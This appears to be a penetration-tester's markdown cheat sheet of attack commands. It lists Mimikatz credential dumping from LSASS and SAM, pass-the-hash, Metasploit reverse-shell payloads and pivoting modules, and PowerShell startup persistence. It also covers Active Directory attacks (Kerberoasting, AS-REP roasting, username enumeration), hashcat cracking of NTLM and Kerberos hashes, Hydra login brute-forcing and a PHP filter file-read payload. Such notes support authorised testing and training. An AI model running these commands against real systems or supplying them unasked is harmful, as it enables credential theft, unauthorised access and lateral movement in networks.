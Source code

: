 # Mimikatz
## Setup
### Get debug privilege
```
debug::privilege
```
### Impersonate system
```
token::elevate
```

## Credentials collecting
### LSASS
```
lsadump::lsa /patch
```
### SAM
```
lsadump::sam
```
### Logged in users
```
sekurlsa::logonpasswords
```

## Misc
### Pass the hash
```
sekurlsa::pth /user: /domain: /ntlm: /run:powershell
```

# Metasploit
## Payloads
### Staged
- ```windows/meterpreter/reverse_tcp```
- ```windows/shell/reverse_tcp```
- ```linux/x86/meterpreter/reverse_tcp```
- ```linux/x86/shell/reverse_tcp```
- ```linux/x64/meterpreter/reverse_tcp```
- ```linux/x64/shell/reverse_tcp```
### Stageless
- ```windows/meterpreter_reverse_tcp```
- ```windows/shell_reverse_tcp```
- ```linux/x86/meterpreter_reverse_tcp```
- ```linux/x86/shell_reverse_tcp```
- ```linux/x64/meterpreter_reverse_tcp```
- ```linux/x64/shell_reverse_tcp```

## Remote session wrappers
### SSH
```
auxiliary/scanner/ssh/ssh_login
```
### SMB
```
auxiliary/scanner/smb/smb_login
```
## Pivoting
- ```post/multi/manage/autoroute```
- ```auxiliary/server/socks_proxy```


# Powershell
## Scheduled jobs
### Register
```powershell
$trigger = New-JobTrigger -AtStartup -RandomDelay 00:00:30
Register-ScheduledJob -Trigger $trigger -FilePath "" -Name ""
```
### List
```powershell
Get-ScheduledJob
```
### Unregister 
```powershell
Unregister-ScheduledJob -Name "" -Force
```

## Misc
### Download
```powershell
Invoke-WebRequest -Uri "" -OutFile ""
```

# AD Enumeration/Exploitation
## crackmapexec
### Enumerating PTH
```bash
crackmapexec smb ip -u user -d domain -H hash
```

## Kerbrute
### Enum usernames
```bash
kerbrute userenum --dc domain controller -d domain -o logfile usernameslist
```

## impacket
### Get SPNs
```bash
./GetUserSPNs.py -dc-ip domain controller -request domain/user:password
```
### Get kerberoastable users
```bash
./GetNPUsers.py domain/ -no-pass -usersfile file
./GetNPUsers.py domain/user:password
```
### Request TGT (disabled pre-auth)
```bash
./GetNPUsers.py domain/user -no-pass
```


# Hashcat
### Bruteforce
```bash
hashcat -m 1000 -a 3 -w 4 -1 ?l012345 -i hash.txt
```

### Charsets
```
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
?a = ?l?u?d?s
?b = 0x00 - 0xff
```



### KRB5TGS
```
13100
```
### NTML
```
1000
```

# Hydra
### Attack POST form
```bash
hydra -l login -P pass.txt example.com http-post-form "/admin/login:username=^USER^&pass=^PASS^:F=login failed"
```

# Misc
### PHP filter
```php://filter/convert.base64-encode/resource=```
### Blank LM hash
```aad3b435b51404eeaad3b435b51404ee```
### xfreerdp
```bash
xfreerdp /u: /p: /d: /v:
```
